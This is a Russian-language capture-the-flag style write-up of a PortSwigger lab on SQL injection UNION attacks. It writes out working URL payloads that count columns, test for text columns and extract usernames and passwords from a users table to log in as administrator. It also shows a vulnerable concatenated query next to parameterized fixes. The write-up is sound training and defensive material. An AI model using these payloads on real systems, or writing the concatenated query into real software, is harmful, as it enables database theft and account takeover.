






## Lab: SQL injection UNION attack, retrieving data from other tables

**Платформа:** PortSwigger Web Security Academy  
**Категория:** SQL Injection  
**Сложность:** Practitioner  
**Дата:** 2025-07-18 

---

## TL;DR
Параметр `category` уязвим к SQL инъекции. Оригинальный запрос
возвращает 2 столбца, оба текстовые. Через UNION SELECT извлечены
все имена пользователей и пароли из таблицы `users`.
Выполнен вход под учётной записью `administrator`.

---

## Описание уязвимости

Это полноценная UNION атака — финальный шаг после определения
количества столбцов и их типов. Когда известно что запрос возвращает
2 текстовых столбца — можно напрямую извлечь данные из любой
доступной таблицы БД.

```
Оригинальный запрос:
SELECT col1, col2 FROM products WHERE category='...'

UNION атака:
SELECT col1, col2 FROM products WHERE category=''
UNION SELECT username, password FROM users--
```

Результат — в ответе приложения появятся строки из таблицы `users`
вместе со строками из таблицы `products`.

---

## Эксплуатация

### Шаг 1 — Подтверждение SQL инъекции

Добавила одинарную кавычку к параметру `category`:

```
GET /filter?category=Gifts'
```

Сервер вернул **500** — инъекция подтверждена.

```sql
SELECT * FROM products WHERE category='Gifts''
--                                           ^ синтаксическая ошибка
```



### Шаг 2 — Исправление синтаксиса

```
GET /filter?category=Gifts''--
```

Сервер вернул **200** — синтаксис корректен, управление запросом
подтверждено.



### Шаг 3 — Определение количества столбцов

Перебором NULL значений определила количество столбцов:

```
'+UNION+SELECT+NULL--      → 500 
'+UNION+SELECT+NULL,NULL-- → 200 ✓ 
```

Оригинальный запрос возвращает **2 столбца**.



### Шаг 4 — Определение текстовых столбцов

Проверила оба столбца на совместимость с текстом:

```
'+UNION+SELECT+'abc','def'-- → 200 ✓
```

Оба столбца текстовые — в ответе видны значения `abc` и `def`.

```sql
SELECT col1, col2 FROM products WHERE category=''
UNION SELECT 'abc', 'def'--'
-- Успех: оба столбца принимают текстовые данные
```



### Шаг 5 — Извлечение данных из таблицы users

Зная что оба столбца текстовые — подставила реальные данные
вместо `'abc'` и `'def'`:

```
GET /filter?category='+UNION+SELECT+username,+password+FROM+users--
```

В ответе приложения появились все записи из таблицы `users`:

```sql
SELECT col1, col2 FROM products WHERE category=''
UNION SELECT username, password FROM users--'
```



### Шаг 6 — Вход под учётной записью administrator

Из ответа извлекла пароль пользователя `administrator`.
Перешла на страницу входа и авторизовалась:

```
Username: administrator
Password: [пароль из ответа]
```



---

## Итог

Полная последовательность шагов:

```
'                          → 500 (инъекция подтверждена)
''--                       → 200 (синтаксис исправлен)
UNION NULL                 → 500 (1 ≠ 2)
UNION NULL,NULL            → 200 (2 = 2, количество столбцов найдено)
UNION 'abc','def'          → 200 (оба столбца текстовые)
UNION username,password
FROM users                 → 200 ✓ (данные извлечены)
```

Эта лаба демонстрирует полный цикл UNION атаки:
```
1. Подтверждение инъекции    → одинарная кавычка
2. Количество столбцов       → перебор NULL
3. Типы столбцов             → замена NULL на строки
4. Извлечение данных         → UNION SELECT из целевой таблицы
5. Использование данных      → вход под administrator
```

---

## Защита

```python
# УЯЗВИМО — конкатенация строк:
query = f"SELECT * FROM products WHERE category='{category}'"
cursor.execute(query)

# БЕЗОПАСНО — параметризованный запрос:
query = "SELECT * FROM products WHERE category=?"
cursor.execute(query, (category,))

# БЕЗОПАСНО — SQLAlchemy ORM:
products = db.session.query(Product).filter(
    Product.category == category
).all()
```

Дополнительно:
- Параметризованные запросы — основная защита от SQLi
- Минимальные привилегии пользователя БД:
  пользователь приложения не должен иметь доступ к таблице `users`
  если она не нужна для его работы
- Хранить пароли в виде хэшей (bcrypt, argon2) —
  даже при SQLi атакующий получит только хэши а не открытые пароли
- Не показывать детали SQL ошибок пользователям